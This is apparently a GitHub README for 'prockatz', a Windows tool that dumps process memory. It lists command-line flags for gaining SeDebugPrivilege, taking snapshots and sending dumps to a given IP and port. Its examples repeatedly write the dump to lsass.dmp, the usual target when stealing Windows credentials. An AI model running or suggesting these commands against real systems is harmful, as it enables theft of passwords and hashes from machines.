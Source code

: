 
# Process Dump Tool

## Overview
This tool provides the functionality to create memory dumps of processes on Windows systems. It can handle privileged processes by setting `SeDebugPrivilege`, supports snapshot creation for non-invasive dumping, and can send dumps over the network.

## Features
- **Enable debug Privileges**: Gain `SeDebugPrivilege` to handle privileged processes.
- **Network Transmission**: Send process dumps to a specified IP and port.
- **Snapshot Creation**: Create a snapshot of the process for a non-intrusive dump.
- **Support for both PID and Process Name**: Specify the target for dumping either by PID or process name.


## Usage
- `-h, --help`: Show help message and exits.
- `-v, --version`: Print version information and exits.
- `--pid`: Specify the Process ID to dump. [nargs=0..1] [default: 0]
- `--procname`: Specify the name of the process. [nargs=0..1] [default: ""]
- `--dmp`: Specify the file name to dump the process. [nargs=0..1] [default: ""]
- `--ip`: Specify the IP address to send the dump. [nargs=0..1] [default: ""]
- `--port`: Specify the port to send the dump. [nargs=0..1] [default: ""]
- `--elevate`: Set SeDebugPrivilege to dump privileged processes. [OPTIONAL]
- `--snapshot`: Creates a snapshot of the process before dumping it. [OPTIONAL]

## Examples

### Dumping a Process by PID
``prockatz.exe --pid 1000 --dmp lsass.dmp``

### Dumping a Process by Name
``prockatz.exe --procname "example.exe" --dmp "lsass.dmp"``

### Dumping a Process by PID with Elevated Privileges
``prockatz.exe --pid 1000 --dmp lsass.dmp --elevate``


### Sending a Dump Over the Network
``prockatz.exe --pid 1000 --ip 192.168.0.105 --port 443 --elevate``


### Creating a Snapshot and Dumping
``prockatz.exe --pid 1000 --dmp lsass.dmp --elevate --snapshot``


## Acknowledgments
- **Argparse Library**: This tool uses the `argparse` library by Ranav for parsing command line arguments. More information can be found at [argparse on GitHub](http://github.com/p-ranav/argparse).


